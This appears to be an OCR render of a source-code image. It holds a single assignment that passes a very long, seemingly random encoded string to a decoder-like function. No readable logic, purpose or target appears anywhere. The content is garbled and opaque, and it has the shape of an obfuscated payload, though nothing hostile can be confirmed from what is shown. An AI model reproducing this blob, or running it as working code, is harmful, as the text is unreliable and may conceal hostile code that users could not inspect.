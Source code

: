 r=d(o,"0cHP51o9b:J<6Iiw6JPIIJ9bcb6i1HwAbiHJ,bI:o5gX<k5IIbb9IP:io5wwbwHiI:H1wa<J1HwcbeH<Idc161PJi695cH</565:i6:5HH66oIwIo1P6IJ57wI6o1Pi<9IPwJJP:cQ<9i5b<ci<61JwoI6biPo6i1iMi<c51ii:565oJwi:6PJIo<5b1cfJ616w:bbic:c}oJw5#Ii96cbE5651Jw5:IcJ6b91kJJw1ciiHH6916wJ:bP5Li6w9bc9<:8P6ib56oo<*s:iP6Ib<P95cco<5%ib:9PooJr6J55Hi8wc:jH66co5w<P5iboiY6JJ5oHPiH96cI6Poi<Pb5PbI<9i6:::5Jw9:PHb<w9BuIJU55iccJIQ15wH:RH6cHIH9t7I:h5EI69o)b69oPwb:<PHI65wtiJ951i5b<w66Io<A9P6ic9oc5<H5iPPw5bwicJJoo;:Jriz:6cJ<b1owHiPbiP1I59c6cb91HIIP:Iw:<obww:HPoIJ99jbo11cw2PwH86&o136JcP5iPPb<o1<wEbiH66b<boOm:J9c<IbbPcJ1Jc9:5PHIRo61bX5Jw5PiHbII:Jwc1<<9955I<oicH<o1Pi55cHI66c<i::J#56?bqcc<o19ii1r6i9H)bJo55i_<ibwcJ<ooolP:HI59JWiJ65Jio65:1H+<6o6B::bwcJHco<61>iib6Hb/96iowEH:iw9<IbbcP1bVH:HPd6ioJ1oc1<c5HiCbIPc915JwHJciI:IcH<b56iJbbH531I5o:w6J9wP<:b5Lw15wIbiH66Joo5PeoJiP6iob9c99cP<wo::P59sc5JJ5biobHobcJ6H1Ji9:HPc9oc<<X5ii6bb95HiIHo<<:9w5JI1cJ<i15wH:KH6c6:,5Hc:<H5IIiHS691Jwb:oPHqI6io6+b<H5w:wo1P4<<slJ5PJIb9ocHwb<b1wJ1o<Po6c4oJ65lIi96cbwo691Hii:iP<6JHPIH5b&obHH7<i1J5o%cJcPoI:H:iw<J51Jc59KPIEo9wJ:i5HIw9;6I<:1bJ991Ho:t56Z6:I5HiP9JI61J,.:5PHIko61bc6Jw5bw1P<hc6619:65cIo95cHJi:JHbIP5cwHbIH<Ic5Ui19Jcb<o1HPcw1:oP1IPoH<wowi5b6ci<61JwoIH:6P:I9o6mb<9Rc69:HcIoHH1:6PJIb955wc9<b1wJ1o:PPI5ooXwJ6w96<51Ic99PPTG:9HJ6i9HWwJWwIi:bbI9J11o6 96P66I9HcPJJd6bJPP65oHy :69b5HIw91co<HHwwo:cH96o9cJo1iiE9ic6<b6P1c+1b6P6IJoJc9JJ5P<95Jib:KH16:o:45JoPwIJ9Jc9<:1owb:8)5<1PiI69Jcoc<<o1Hwc:<Hb6woHcHJ1w<6ib1ci6:1o}cJjH6I1c!<o5JibboHHOi6cou^PJ6wc<9bHVI1Hwbb6HJ6bo55<y_<c56ibPPw:655w:5Pw6io6BJwi<bPc6J::PP6H1IiPJJ5JI59i{b:<i6:9Ho65oHwiI6JPPbiP9oHoo<HJwJ:bH5Ioo<cc55w99ic6<J1oP}w<:5Po66H1wo<11cioboci995bw6:i55I:o6cI<o19b6Po6oo5yH:ib1Piic9<cxoIP9iibiHJIco1cH5ow9bRci<61bP5wa:JPLI<ob61:91jwobHHI9:P<wJ::PoIIbBcu1Hw9b6HJ6bo59cXJJ65<i996cw<owo:6P%6io6&bi9JbPwiBb<I9:IobwPPbib9HckJi5JPJiob<HG6Joow61159i{Hwiw<91bwwb9PbIPooJo5<i&9ic6<b:115w<:Hi:Jw9Je15JB1b5HH6O165wwbJcP9io9I6:owH<wbbwHH6ooJe9:bw1icbF6w:I5i<b95P561oJu<JH85bHP5<61Jwb:59;H6I<H9i:Jb5Hi<bHHI661wwiJPwc6PboKi<b1owPH6IJoo 5JHPiH9IJb9IcJH1owb:iPP6o99cj<cwI<51Hc<1i_::bPoI59,ozNw<5+Jw5PwPc6P1i<9bb5PiJ5i<o1iwObiH66bJPo<e6<Pw:<Ib9Hb<JoPy(P5IioiA6JJ5oPciH96H165c1i1:HP6IIo6crJ6ii:1Hb6oo5fzIJ:<P:6o9ocH6c15wb:16i9IQbJo55i{6Io9jbbIcciHJcPI6io6c:oPP5iibtci<io::i1HIb9oc5<R:q1:io:oP59w5acVJI5<Iibccbow5)w5:oP6Ico5c1Ji5wb5Pc<i16wJ:o9wPHIwH:wJJi1-wob<ci6wob4:11k6JJcb6<1HwlbiHJ)1Ioobm::ww:IbP1w16;1dTc5<c6I/9HcbJI5KwcbJH<o ,o:JPbIo9H1ic:J65Ji95ck9IH1IJH19I69Jcb<5Jz19wH:5HJbP15r<:i15iHb1c69P54wI::P5I9o661:1Pc6oHo6Iopwi:6Pbcbib9J6<:156iobJPo65eoJ<5QIi96cbr56P5iwI5:kwIJo1JJ15i5bHH;<6J61bwH:JiI<9oiWiJo5owJPwiwo5cc:iP6IJ9oocli<516i651H5bc51?:JJ5:i99oIPbPwbJCPHI>oi>Ji:JI5DiJbTi_6Jc1I<JoPc9oHS<-5ii6bb95H5HeJH16IJ55:P19cb6d5iwcPUIIoJAbJo5HHiicbocb<iobwNJPP!b:1:uoJo5JiIb565b5wi:6PJIo6c9HD6<115J191HH66oIw6JyP6:1P<w9651<ii:HPoIPo56cJI56:<96c66cobwI:xPw:5cH6H56iJbbH5c+Izo:w6J9wP<I95Ri<H1ii651coI!oH{3JW5<b{5H<J1bwo:H9cw:I:9:cbJJkwwHbiI:<woJw11cw9<Pbdc9JJ5iwHbwH!9Io:Nb19H1Io57w6<65IwH:PHJb6/J6655iHb2c6rH6b1I+P:oP<I1o661<o55wcboH<6IoJ<1::54icHIw<b6coIH:HHP6bo:x*1:PbI:99co<Pni:55P6io6(JJobHPiiIP:R:<o1owo5wHeI59oc6<c55w1biHwo5e6:iP6IJ9o1wcw<41owV:JPU<LoIQ:<5iHb9c6<J1bw5i9:hP16<H1i<<o5cboH<6D1iw6:bb85cIo9Jc9:P5ii1HJ66o5BHJBP6co<wo-wI:Hw5::Hi66oJaowHJ}5IiHb9H:9PHP:b51IH94#iJJbI1oi::HHw66o6<196PwI19oc:<H1<iJH6I9oop5JHPiH:Iob1cJ6PooJ<owHb6b99cG<c1ob5PH<i16wJ:o96P6Iw9bc:Jb16i5b<HH9<5owbJiP<Io96<o91wKbiH66b<<9bz5:65<I<9JIPJ9HcJI1PywI69PToJJ5ii<96I:61o5<PbcPH:61bcbJ:5iiwboiboojoJNPiI6ii:cHo<:w5<cHi66oJSowoJo59i1boH69PP:S5bwi<:c5IcJ<c55ibb6H:<Jc9;PJHwcIH9Hc9<i1Pio:1iJobcIJH5rIi9J15cw<b1Jwh5:cJIco5c5J95oi:bfI9Jb16wiJ5P:669Ico<9i6:,Ho65oHwiwc:o5P:c19HHJIwH:<H66Job>5i5JJPJiPP1w1<HoP}c:9HiIJxi<P5biob5HVi:6wHI6<1cc9iHoI<H1:i6bJHb65:wo9wJ:<PJ:P1Pc-<:19:HPo66oJQbJ5:P>w6:P9wI6b1P:b5oIH9E)iJJb91Pi4b5HJ69c9Io:959I59<cw<i1:iJ:o6Joip5JH5XI6<:95Ic:916wJbIIW95uJJb5oiH6io:cy91Pbi59wIo9Jc(Ji56ib6Jb6HI9<5c_6:9I6b co<51Hiii6:IHb6595ccJEiH:5c6<J1bw5i!:PHJ6<95cJocHci6:PHH6116<P9PP=ic9wc1J61bb6PH6oo5aH:ib<55i19H6w:o1iIob66i9orbJo55i,66b9cJ<b11Jw9w5NI9H9I:56w6boH56H1i5:wJJo51I=bHcIJJ11w:5Pc1Ibo;}JJb51:151<J9cw5:HP>66<c1bi5bJPo:<1<EPJ5PoI6bHiIJIoJc<<:5wioboHw6Joir1::5o9JHH<51Hwvb6o9PHI(oowi1<c<iob5cJ<Hwb:wPHIMoi?JiJ:,ww6Po5;6:wPiic9bIbbbcH<d5iiJIo:oPcIPo5lw:6w1i99:c5oIPowH:PPc6b9P6F5oiIbhci<61bPww5J5i<<i99r:J511i5Hoiio_wi:6Pbc:IdbPc;o:5bJ1:oH5Icoo)<JIw9ibbbcb<o1Hwi:IP)I59ciG1wH9iJbHH191o9w::5iIJw9HcJJb1HwPbPIio5TJ:iP6IJ9o1+H96t1<i651w5bwPcJoori(9ic6<b:IPPiG5<ccI6o96Po:H1wHb:c66yo5Vc:HiwI<9J6:JJ5Jiw:oH<<ioI6H5&i99Jcb<o1HPbII::Hi6b91<wb11mI<H;6b1Jwb:oPHciIc93cPJ91E:wo:H5<w16:i1oIb9oc5<7<<5:wIb5P5IHoHOwJHP<Jw5HiEb9HH<ioHww:6P1I59#cc<55iiJb9w6J1PoI59H)iwJ<H55w5b9IIJwoc(?JPPJi5cb<I1HwTbiHJlo6Ho<=::IPJIJbZ<69Hwo:5PH6iJb9P)6Ji55:I1iHc<boH-P:JPiI<9i6::J5iwL:oH<<iow!bJ:Iib:cb<o15wXI::oP1bP5JcP1IHwi<9bc:<61wwoP5IH9_;iJ65JibboH565oJwi:6PJIo6H9H=6<<5JiIo1HHIc3oJJ5YIi96cbUc6c1Hwi:HP16Jk6<15oi5bHcisJ6c16w1:55HII96I5bI1biPHb6<oH G:iPJco<wHww1JsH<:DPo6Job8oJH9I5iIbbPcJ9cP9kHbIIH9PC6JJ5bi56o9iHb61wi:wPbIo95cawJbw1Ji1HJIoo5uHJyP6HJic9JH1<H1Iw6bbPcbP5HlPJJ55i9HV6o1Jwb:oPHHH6i9Jc:J11sw5b<cwoHnb:6PJIb955wc9<b1wwi5Pu:I51wJ15Hi996cJ<b15PJi6:HP1b15<coJcio:1H3<i16wbIi:rPcb<56cq<:16JcoHH1<6o:f<:J51:c5c<oo{wFbiH66bJ5oa.w1<PPiobPcb9cPcwH:wHJ93cwJJ5biobH1iHb61o:R1J4P<IHH<>I<oQ1Iob5Pc6oo<yI52i:9Jcb<o1HPiwJ:6Hi69Hcio:i5bIiP9.I16ZP:oP5IHoi5ic5<H5iic9iI<Jco6w9P6is9oc5<H5iP1io:bicJ99HwI5HiP96cJ<b15Pow::HP<oic1Jb5oi5byo6cb6<1bI5:iP<Ic9H#i5iw1bbHo65oz5oG6Jp5biPb56I:P1ii:HiIoobQoJ55 H5ihbPcJ9cP<wH:HHJ6J9iJ6oJiob5HH<i:wo5zNJ^iw<1o6x6<Hq1J<o9P56<1ixHJo5PI5PccI<6L<I:bJw5<=9)#cJo59Ii5Q<io<wb:oP5Ijb:19c9<H5<i5bsHw9:5PwoJIPHicbHci1H+Ib6HJ6bo55w?5JwPbicboIc99PPAf:9HJ6i9HywJ4wIi:bbI9J11o6f96P66I9HcPJJg6bJP165oHuu:6b5P<<ibbw5<l1cwPbJHbbc59cH:IiHbJc6<J1bw5IPb6P<I<H1woJ51ciob<HIoZn::JPbIo9H1ic9<u11ibo:Pb6IoR6<o9_196PP<o15wHbio6PI6bo5c5<cP6i<P9Lb<ooPwb:IPwb:5ici<>?c6<bHc66do6wJP6wH9oc5<H5iPJw1bbHo6PcIiPJiP::1o